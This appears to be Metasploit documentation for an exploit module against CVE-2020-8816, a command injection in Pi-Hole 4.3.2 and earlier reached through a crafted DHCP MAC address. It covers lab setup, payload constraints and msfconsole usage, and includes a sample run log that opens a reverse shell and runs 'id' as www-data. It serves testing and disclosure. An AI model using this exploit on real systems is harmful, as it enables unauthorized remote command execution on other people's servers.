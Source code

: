 ## Vulnerable Application

This exploits a command execution in Pi-Hole <= 4.3.2. A new DHCP
static lease is added with a MAC address which includes an RCE.
DHCP server is not required to be running.

Exploitation has many constraints, outlined in the original
[technical writeup](https://natedotred.wordpress.com/2020/03/28/cve-2020-8816-pi-hole-remote-code-execution/).

1. Exploitation requires `/opt/pihole` to be first in the `$PATH` due to
exploitation constraints.
2. Payload must not contain `%00`
3. Payload must be all capital letters

### Setup

Install Pi-Hole [Pi-Hole 4.3](https://github.com/pi-hole/pi-hole/releases/tag/v4.3)
with the following commands:

  ```
  sudo git clone --depth=1 -b v4.3 https://github.com/pi-hole/pi-hole.git /etc/.pihole
  # replace 'git clone' with 'git clone -b v4.3'
  sudo nano /etc/.pihole/automated\ install/basic-install.sh
  sudo ./basic-install.sh
  ```

Pi-Hole attempts to install the latest versions of the software.  Modifying the git clone
command will force it to install the old AdminLTE and Pi-Hole versions.  However this
will make FTL fail to install.

Answer everything with the default.

Lastly, we need to create one file which wasn't made.

```
sudo touch /etc/pihole/GitHubVersions
```

If `/opt/pihole` isn't in the path (for php/lighttp) because the install process wasn't 100% due
to the forcing of version 4.3, edit `/etc/lighttpd/conf-available/15-fastcgi-php.conf` and
add a new item to bin-environment.

```
"PATH" => "opt/pihole:" + env.PATH
```

This will be enough to make it exploitable, however the dashboard won't fully work since some
other components were installed which are too new for it to work with.

If you wish to install FTL, follow the [directions](https://docs.pi-hole.net/ftldns/compile/).

### Cleanup

This will attempt to clean entries in `/etc/dnsmasq.d/04-pihole-static-dhcp.conf`.
However, on failure, `sudo pihole -a removestaticdhcp <MAC>` can be used to remove them.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/unix/http/pihole_dhcp_mac_exec```
  4. Do: ```set rhosts```
  4. Do: ```run```
  5. You should get a shell.

## Options

### Password

Password for the web interface.  Randomly set on install.  Use `pihole -a -p` to change/remove it.

## Scenarios

### Pi-Hole 4.3 with AdminLTE 4.3 on Ubuntu 18.04

  ```
  msf5 exploit(unix/http/pihole_dhcp_mac_exec) > exploit
  
  [*] Started reverse TCP double handler on 1.1.1.1:4444 
  [*] Using cookie: PHPSESSID=gh6jsnqloiate3i03f61odtme2;
  [*] Using token: kxpRSBAwsgqwoXLzNy+NJUIvxhZDg6XlgNpgFKWOa1g=
  [+] System env path exploitable: /opt/pihole:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
  [*] Payload MAC will be: 95F91DB49D89
  [*] Sending Exploit
  [*] Accepted the first client connection...
  [*] Accepted the second client connection...
  [*] Command: echo Sy32yxZq9xJIjYYz;
  [*] Writing to socket A
  [*] Writing to socket B
  [*] Reading from sockets...
  [*] Reading from socket A
  [*] A: "Sy32yxZq9xJIjYYz\r\n"
  [*] Matching...
  [*] B is input...
  [*] Command shell session 3 opened (1.1.1.1:4444 -> 2.2.2.2:52408) at 2020-05-16 01:04:42 -0400
  [*] Attempting to clean D417DBC0B0BD from config
  [*] Attempting to clean 95F91DB49D89 from config
  
  id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```
